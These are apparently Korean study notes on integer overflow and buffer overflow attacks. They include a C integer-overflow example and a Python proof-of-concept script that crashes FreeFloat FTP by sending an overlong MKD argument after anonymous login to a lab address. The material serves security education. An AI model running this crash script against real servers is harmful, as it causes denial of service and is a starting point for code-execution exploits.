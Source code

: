 #### 정수 오버플로우/언더플로우 공격
- 일반적 오버플로우 : `strcpy()`,`memcp()` 등의 경계값을 제대로 체크하지 않은 변수 복수의 문제를 이용한 공격법.
- 정수 오버플로우 : 연산결과가 저장하려는 데이터 타입이 표현할 수 있는 범위를 벗어나는것
    - 연산 결과가 데이터타입이 저장할 수 있는 최대값보다 크면 오버플로우, 최소값보다 작으면 언더플로우
    - 정수형 데이터타입을 사용하는 모든 프로그램은 정수형 오버플로우가 발생 가능
    ```c
    //예제 4-15 ) 정수형 오버플로우 발생
    #include <stdio.h>
    int main(){
        int a=1234567890;
        int b= 1234567890;
        int c= a+b;

        printf("a   = %d\n",a);
        printf("b   = %d\n",b);
        printf("a + b = %d\n",a+b);
    }
    ```
### 실전
---
- FreeFloat FTP : 사용자가 로그인에 성공한 이후 특정 명령어에 인작밧을 받을 때 길이를 확인하지X
#### 크래시 발생시키기
- 메모리 오염 공격
    1. 프로그램이 실행중에 죽는 현상을 재현하는 POC(proof of concept) 코드 작성하기
        - POC코드를 점진적으로 계속 정제해 더욱 정교한 공격 코드를 만들 수 있다.
    - free float FTP를 대상으로 공격을 해보자. 먼저 ftpserver.exe 를 실행시키고 해당 주소와 포트로 서버연결을 해준다. `nc 192.168.227.1 21`
    - 기본으로 생성되는 anoymous 계정에 로그인을 해준다.
    - 버퍼 오버플로우를 발생시키는 공격 코드를 전송한다
    ```py
    import socket
    import sys

    evil = 'A' * 1000

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.227.1', 21))

    s.recv(1024)
    s.send('USER anonymous\r\n'.encode())
    s.recv(1024)
    s.send('PASS anonymous\r\n'.encode())
    s.recv(1024)
    s.send(('MKD ' + evil + '\r\n').encode())
    s.recv(1024)
    s.send('QUIT\r\n'.encode())
    s.close()
    ```
    ![alt text](img/image-4.png)
    ![alt text](img/image-1.png)
    - 자동으로 서버가 종료되고 작업창에 있던 ftpserver 프로그램이 꺼진 것을 볼 수 있다.